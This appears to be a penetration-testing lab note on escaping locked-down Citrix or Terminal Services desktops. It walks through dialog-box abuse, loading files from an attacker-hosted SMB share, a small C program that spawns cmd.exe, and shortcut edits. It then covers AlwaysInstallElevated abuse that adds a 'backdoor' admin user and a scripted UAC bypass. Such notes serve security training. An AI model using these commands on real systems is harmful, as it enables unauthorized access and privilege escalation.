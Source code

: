 ### **Overview**

- **Virtual environments** (Citrix, Terminal Services, AWS AppStream, etc.) often implement _lockdown policies_ to restrict user access.
- **Breakout Goal**: Escape restricted desktop → get command execution → escalate privileges.

---

### **Breakout Methodology**

1. **Access a dialog box**
2. **Use the dialog box to execute a native binary** (e.g., `cmd.exe`)
3. **Escalate privileges**

---

### **Dialog Box Abuse**

- Triggered via applications like:
    - _MS Paint_: File → Open
    - _Notepad_, _WordPad_, etc.

- Bypass restricted paths:
    - Use UNC path in "Open" dialog:
```bash
\\127.0.0.1\c$\users\pmorgan
```

---
### **Accessing SMB Shares from Restricted Environment**

- Host files on attack box using:
```bash
smbserver.py -smb2support share $(pwd)
```
- Access from dialog box using UNC:
```powershell
\\<attacker-ip>\share
```
- Launch executables by right-clicking → Open.

---

### **Custom Executable (pwn.exe)**

- Simple C program:
```c
#include <stdlib.h>
int main() {
  system("C:\\Windows\\System32\\cmd.exe");
}
```
- Provides interactive shell within restricted env.

---

### **Alternate File Browsers**

- Use portable tools like:
    - **Explorer++**
    - **Q-Dir**

- Can bypass group policy folder restrictions.
- Allows copying files from SMB share → Desktop.

---

### **Alternate Registry Editors**

- Use tools like:
    - **SmallRegistryEditor**
    - **Simpleregedit**
    - **Uberregedit**

- Circumvent default Regedit.exe restrictions.

---

### **Modifying Shortcuts**

- Edit existing `.lnk` file → Set Target to `cmd.exe`
- Steps:
    - Right-click shortcut → Properties
    - Modify _Target_ to:
```cmd
C:\Windows\System32\cmd.exe
```
- Launch to spawn Command Prompt.


---

### **Script Execution**

- Create and execute `.bat`, `.vbs`, or `.ps1` files:
    - Example:
```bat
cmd
```
- Drop script into Desktop or via SMB → execute to gain shell.

---

### **Privilege Escalation**

#### _AlwaysInstallElevated Registry Keys_

- Check via:
```cmd
reg query HKCU\...\Installer /v AlwaysInstallElevated
reg query HKLM\...\Installer /v AlwaysInstallElevated
```
- If both keys = `1`, exploit with:
```powershell
Write-UserAddMSI
```
- Creates `.msi` to add admin user.


---

### **Runas for User Impersonation**

- After creating user:
```cmd
runas /user:backdoor cmd
```
- Use strong password to satisfy complexity policy.


---

### **Bypassing UAC**

- Even with Admin group membership, UAC restricts access to certain dirs.
- Use script-based UAC bypass:
```powershell
Import-Module .\Bypass-UAC.ps1
Bypass-UAC -Method UacMethodSysprep
```
- Verifies elevated shell with:
```cmd
whoami /priv
whoami /all
```


---

### **Post-UAC Access**

- Now accessible:
    - `C:\Users\Administrator\Desktop\flag.txt`
    - Other high-privileged user data

---
## Summary

- **Dialog box abuse** is key for breakout.
- Tools:
    - _Explorer++_, _SmallRegistryEditor_, _PowerUp.ps1_, _Bypass-UAC.ps1_

- Attack flow:
    - Dialog → CMD access → Priv Esc → UAC Bypass

- Goal: SYSTEM access or domain lateral movement.